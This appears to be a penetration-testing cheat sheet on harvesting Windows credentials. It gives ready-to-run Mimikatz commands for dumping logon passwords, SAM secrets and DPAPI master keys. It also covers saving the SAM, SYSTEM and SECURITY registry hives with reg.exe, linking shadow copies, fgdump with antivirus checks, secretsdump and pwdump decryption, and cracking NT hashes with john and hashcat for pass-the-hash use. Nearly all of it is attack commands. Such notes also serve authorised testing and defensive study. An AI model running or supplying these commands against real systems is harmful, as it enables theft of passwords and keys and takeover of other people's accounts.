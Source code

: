 # Credentials and Tickets

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

sekurlsa::logonpasswords 
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred
vault::list
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes

Enumerate copies

```
vssadmin list shadows
diskshadow list shadows all
```

Create a link to the copy

```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\<shadow copy volume name>\
```

## SAM credentials dump

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks.

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DPAPI hash dump

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

